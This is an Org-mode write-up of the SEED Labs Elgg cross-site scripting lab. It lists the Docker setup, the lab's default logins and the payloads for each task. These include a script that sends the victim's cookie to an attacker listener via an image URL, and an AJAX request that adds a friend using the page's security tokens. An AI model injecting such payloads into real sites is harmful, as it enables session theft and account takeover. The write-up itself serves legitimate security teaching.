 * Setup
** Docker Compose Setup
*** cd category-web/Web_XSS_Elgg/Labsetup
*** docker-compose up
*** modify the /etc/hosts file with the following configurations
      10.9.0.5 www.seed-server.com
      10.9.0.5 www.example32a.com
      10.9.0.5 www.example32b.com
      10.9.0.5 www.example32c.com
      10.9.0.5 www.example60.com
      10.9.0.5 www.example70.com
*** Go to www.seed-server.com and if you find the login page then the setup is complete

** Credentials
|----------+-------------|
| UserName | Password    |
|----------+-------------|
| admin    | seedelgg    |
|----------+-------------|
| alice    | seedalice   |
|----------+-------------|
| boby     | seedboby    |
|----------+-------------|
| charlie  | seedcharlie |
|----------+-------------|
| samy     | seedsamy    |
|----------+-------------|


* Task 1
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert("XSS");</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-1-inject-js.png]]


* Task 2
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert(document.cookie);</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-2-display-cookie.png]]


* Task 3 
    Since we are simulating the cookie stealing using a server, we are assuming localhost is the host machine setup by the attacker. 
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>document.write('<img src=http://localhost:5555?c='+escape(document.cookie)+'>');</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-3-steal-cookie.png]]


* Task 4
#+BEGIN_SRC js
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl=`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${ts}&__elgg_token=${token}`; 
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
#+END_SRC
